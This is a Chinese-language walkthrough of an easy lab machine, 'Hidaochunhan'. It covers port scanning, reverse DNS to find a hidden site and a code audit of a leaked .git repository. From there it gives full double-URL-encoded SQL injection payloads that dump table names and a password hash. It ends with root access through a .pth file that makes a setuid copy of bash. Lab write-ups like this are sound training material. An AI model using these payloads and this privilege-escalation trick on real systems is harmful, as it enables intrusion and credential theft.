## 靶机信息

靶机名称：Hidaochunhan  
靶机作者：111  
靶机类型：Linux  
难度: easy  
来源：MazeSec/QQ公开群 321948805  
官网：https://maze-sec.com/  

闪传下载链接：https://qfile.qq.com/q/WsvFqQZZC0 ，2027-5-17日过期。

## 端口扫描

靶机开放了22、53、80端口，53端口是dnsmasq服务，80端口是nginx服务。

```bash
nmap 192.168.6.176 -p- -sT --min-rate 3000

PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

nmap 192.168.6.176 -p 22,53,80 -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.3 (protocol 2.0)
53/tcp open  domain  dnsmasq 2.92rel2
80/tcp open  http    nginx
```



## web服务测试

访问目标 `192.168.6.176` 的80端口，可以看到nginx的默认页面，目录扫描没有收获。



## dns反向查询

靶机运行了dnsmasq服务，尝试把靶机作为dns服务器，进行反向查询，通过 IP 地址反向查询其对应的主机名或域名，发现有一个域名 `daochunhan.dsz`，访问该域名，是一个气象现象观测站，网站上有一个查询的功能。

```bash
dig @192.168.6.176 -x 192.168.6.176
176.6.168.192.in-addr.arpa. 0   IN      PTR     daochunhan.dsz.
```



配置本地的 `/etc/hosts` 文件，把 `daochunhan.dsz` 指向靶机的IP地址。

```bash
echo '192.168.6.176 daochunhan.dsz' >> /etc/hosts
```



## 代码审计

扫描网站目录，存在 .git 目录泄露问题。



git-dumper 工具可以把 .git 仓库下载下来做代码审计。在 PHP 服务器接收到参数时，会自动做一次 url 解码，这里开发者拿到参数后，先做了一次 html 实体编码，htmlspecialchars 函数把 `<` `>` `"` `'` 转成 `&lt;` `&gt;` `&quot;` `&#039;`，避免用户输入内容被浏览器解析成 HTML 标签，防止 XSS 攻击，然后又做一次 url 解码。问题出现在先做了实体编码又进行url解码，导致实体编码失效，攻击者可以通过 url 编码的方式绕过实体编码，再最后一次 url 解码时还原为原始字符如`'`、`"`，再拼接进 sql 语句，闭合原始结构，产生 sql 注入漏洞。




下面是原始sql语句，存在括号包裹。

```sql
$sql = "SELECT id, title, season, summary, occur_month, risk_level FROM dsz_weather WHERE status = 1 AND (title LIKE '%{$kw}%' OR summary LIKE '%{$kw}%') ORDER BY id DESC";
```

使用下面这个对 payload 时来分析原语句

```sql
倒春寒%2527) or 1=1%23
倒春寒%2527) or 1=2%23
```

使用第一句 payload，闭合括号后，`(title LIKE '%倒春寒') `匹配以倒春寒结尾的文章标题，`or 1=1` 永远为真，AND 优先级高于 OR，where 此时的条件是 `where (status =1 AND title like '%倒春寒') or 1=1 #`，查询结果返回所有数据，同理当 OR 后面的条件语句为假时，至少返回前面的条件语句匹配的结果。

```sql
$sql = "SELECT id, title, season, summary, occur_month, risk_level FROM dsz_weather WHERE status = 1 AND (title LIKE '%倒春寒') or 1=1 # %' OR summary LIKE '%{$kw}%') ORDER BY id DESC";
```

验证结果





这个搜索框有点奇怪没有搞明白，通过 hackbar 或 url 直接发送都能手测出来，搜索框直接提交没有测试成功。

如果希望联合注入，需要先闭合括号，前面查询了 6 个字段，联合查询也需要查询 6 个字段，测试发现有 3 个回显位，分别是2、4、5。

```sql
倒春寒%2527) union select 1,2,3,4,5,6%23
```





联合查询里套一个子查询，利用 information_schema 数据库查询 dsz 数据库里有什么表，同样的需要注意引号需要二次编码，获取表名 dsz_user、dsz_weather。

```bash
# sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables  WHERE table_schema = 'dsz'
# payload
http://daochunhan.dsz/search.php?keyword=倒春寒%2527) union select 1,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables  WHERE table_schema = %2527dsz%2527),3,version(),database(),6%23
```



获取表字段名id,name,password_hash,created_at

```bash
# sql
SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'dsz' AND table_name = 'dsz_user'
# payload
http://daochunhan.dsz/search.php?keyword=倒春寒%2527) union select 1,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = %2527dsz%2527 AND table_name = %2527dsz_user%2527),3,version(),database(),6%23
```



获取用户表的用户名和密码哈希值1,daochunhan,7363926e777ae17bd2f1a75ef36845bc

```bash
# sql
SELECT GROUP_CONCAT(CONCAT(id, ',', name, ',', password_hash)) FROM dsz.dsz_user
# payload
http://daochunhan.dsz/search.php?keyword=倒春寒%2527) union select 1,(SELECT GROUP_CONCAT(CONCAT(id, %2527,%2527, name, %2527,%2527, password_hash)) FROM dsz.dsz_user),3,version(),database(),6%23
```

在线解密密码哈希值，得到密码为 daochunhan2026。该哈希在 somd5 平台可以查询到，在 cmd5 平台可以查到，但是一条付费记录。





密码复用成功登录 SSH



## 提权

daochunhan 用户可以使用 sudo 执行 /opt/weatherbot.py 脚本，审计脚本，使用了 site.addsitedir 函数，加载了配置文件中的插件目录，site.addsitedir 函数会把指定目录加入 sys.path，并且会执行该目录下的 .pth 文件，.pth 文件可以写任意 python 代码，利用这个特性可以提权。详细了解请阅读[https://hacktricks.wiki/zh/linux-hardening/linux-basics/linux-privilege-escalation/index.html#%E5%8F%AF%E5%86%99%E7%9A%84-pth-%E6%96%87%E4%BB%B6%E7%94%B1-siteaddsitedir-%E5%A4%84%E7%90%86](https://hacktricks.wiki/zh/linux-hardening/linux-basics/linux-privilege-escalation/index.html#%E5%8F%AF%E5%86%99%E7%9A%84-pth-%E6%96%87%E4%BB%B6%E7%94%B1-siteaddsitedir-%E5%A4%84%E7%90%86)



config.json 配置文件中指定了插件目录 `/home/daochunhan/preference/plugins`

```bash
daochunhan@Hidaochunhan:~$ cat preference/config.json
{
  "site": "气象现象观测站",
  "author": "daochunhan",
  "updated": "2026-11-18",
  "plugins": "/home/daochunhan/preference/plugins",
}
```

创建插件目录，在该目录下创建一个 a.pth 文件，写入一行以 `import` 开头，分号分隔的多句python代码，执行 sudo /opt/weatherbot.py 脚本时会执行该代码。

```python
import os;os.system('cp /bin/bash /var/tmp/bash;chmod +s /var/tmp/bash')
```

